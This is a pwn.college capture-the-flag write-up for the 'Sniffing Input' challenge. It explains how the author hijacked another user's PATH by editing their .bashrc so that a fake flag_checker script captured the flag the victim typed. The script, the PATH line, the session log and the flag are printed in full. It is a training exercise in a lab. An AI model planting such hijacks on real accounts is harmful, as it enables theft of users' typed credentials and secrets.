 
# 2. Sniffing Input

This challenge prompted me to hijack a command by modifying another user's `PATH` to intercept their input.

## My Solve

**Flag:** `pwn.college{oX_tEAySAg3xzB4CjOur6vH08zk.0VNzEzNxwCM2EDNzEzW}`

To capture the flag that the `zardus` user types, I used a two-part attack. First, I created a fake `flag_checker` script in my home directory that would echo back any input it received. Second, I edited zardus's `.bashrc` file to add my home directory to the beginning of their `PATH`. When I ran the victim simulation, their shell found and executed my fake script, revealing the flag they typed.

Content of `/home/hacker/flag_checker`:

```
#!/bin/bash
echo "Type the flag, victim: "
read flag
echo "$flag"
```

```
PATH="/home/hacker:/home/zardus:$PATH"
```

```
hacker@shenanigans~sniffing-input:~$ nano flag_checker
hacker@shenanigans~sniffing-input:~$ nano /home/zardus/.bashrc
hacker@shenanigans~sniffing-input:~$ /challenge/victim
Username: zardus
Password: **********
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag, victim: 
pwn.college{oX_tEAySAg3xzB4CjOur6vH08zk.0VNzEzNxwCM2EDNzEzW}
zardus@shenanigans~sniffinput:~$ exit
logout
```

## What I Learned

I learnt that you can combine `.bashrc` modification with `PATH` hijacking to replace legitimate commands with malicious scripts, allowing you to intercept a user's input.

## References

The problem statement provided was the reference used.

```
...Zardus doesn't keep the flag lying around in a readable file after he logs in.
Instead he'll run a command named flag_checker, manually typing the flag into it for verification.
Your mission is to use your continued write access to Zardus's .bashrc to intercept this flag.
Remember how you hijacked commands in the Pondering PATH module?
Can you use that capability to hijack the flag_checker?
```
